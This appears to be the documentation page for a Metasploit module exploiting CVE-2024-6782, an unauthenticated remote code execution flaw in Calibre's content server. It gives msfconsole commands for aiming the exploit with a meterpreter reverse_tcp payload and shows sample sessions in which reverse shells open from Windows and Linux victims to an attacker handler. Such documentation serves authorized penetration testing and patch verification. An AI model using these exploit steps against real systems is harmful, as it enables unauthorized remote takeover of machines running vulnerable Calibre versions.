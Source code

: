 ## Vulnerable Application

**Vulnerability Description**

This module exploits a vulnerability in Calibre <= v6.9.0 - v7.15.0 (CVE-2024-6782).

An unauthenticated remote attacker can exploit this vulnerability to gain arbitrary code execution in the context of which Calibre is being
executed.

All versions between v6.9.0 - v7.15.0 are affected. STAR Labs published [an advisory](https://starlabs.sg/advisories/24/24-6782/) that
includes the root cause analysis and a proof-of-concept.

**Vulnerable Application Installation**

Calibre can be downloaded from [here](https://download.calibre-ebook.com/).

**Successfully tested on**

Windows:
- Calibre v7.15 on Windows 10 22H2
- Calibre v7.14 on Windows 10 22H2
- Calibre v7.0 on Windows 10 22H2
- Calibre v6.29 on Windows 10 22H2
- Calibre v6.9 on Windows 10 22H2

Linux:
- Calibre v7.15 on Ubuntu 24.04 LTS
- Calibre v7.14 on Ubuntu 24.04 LTS
- Calibre v7.0 on Ubuntu 24.04 LTS
- Calibre v6.29 on Ubuntu 24.04 LTS
- Calibre v6.9 on Ubuntu 24.04 LTS

## Verification Steps

1. Install Calibre
2. Start Calibre and click Connect/share > Start Content server
3. Start `msfconsole` and run the following commands:

```
msf > use exploit/multi/misc/calibre_exec
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/misc/calibre_exec) > set RHOSTS <IP>
msf exploit(multi/misc/calibre_exec) > set LHOST <IP>
msf exploit(multi/misc/calibre_exec) > exploit
```

You should get a meterpreter session running in the same context as the Calibre application.

## Scenarios

**Windows**

Running the exploit against Calibre v7.14 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf exploit(multi/misc/calibre_exec) > exploit 

[*] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (201798 bytes) to 192.168.137.194
[*] Meterpreter session 1 opened (192.168.137.190:4444 -> 192.168.137.194:50346) at 2024-08-01 23:28:16 -0400
[*] Exploit finished, check thy shell.

meterpreter > sysinfo
Computer        : DESKTOP-foo
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > shell
Process 6084 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Calibre2>whoami
whoami
desktop-foo\admin
```

**Linux**

Running the exploit against Calibre v7.14 on Ubuntu 24.04 LTS, using cmd/unix/python/meterpreter/reverse_tcp as a payload, should result in
an output similar to the following:

```
msf exploit(multi/misc/calibre_exec) > exploit 

[ *] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending payload...
[*] Sending stage (24772 bytes) to 192.168.137.195
[*] Meterpreter session 2 opened (192.168.137.190:4444 -> 192.168.137.195:52376) at 2024-08-01 23:40:16 -0400

meterpreter > sysinfo
Computer        : asdfvm
OS              : Linux 6.8.0-39-generic #39-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 21:49:14 UTC 2024
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```
